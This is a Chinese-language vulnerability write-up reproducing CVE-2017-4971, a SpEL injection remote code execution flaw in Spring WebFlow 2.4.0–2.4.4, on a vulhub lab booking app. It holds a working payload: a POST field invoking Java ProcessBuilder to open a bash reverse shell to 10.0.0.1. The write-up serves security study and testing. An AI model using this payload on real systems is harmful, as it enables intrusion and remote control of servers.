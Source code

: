 （CVE-2017-4971）Spring WebFlow 远程代码执行漏洞
================================================

一、漏洞简介
------------

Spring WebFlow
是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其
2.4.x
版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

二、漏洞影响
------------

Spring Web Flow 2.4.0版本至2.4.4版本

三、复现过程
------------

首先访问`http://www.0-sec.org:8080/login`，用页面左边给出的任意一个账号/密码登录系统：![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId24.png)然后访问id为1的酒店`http://www.0-sec.org/hotels/1`，点击预订按钮"Book
Hotel"，填写相关信息后点击"Process"（从这一步，其实WebFlow就正式开始了）：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId25.png)

再点击确认"Confirm"：

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId26.png)此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

    _(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId27.png)（注意：别忘记URL编码）

成功执行，获得shell：

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId28.png)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-4971
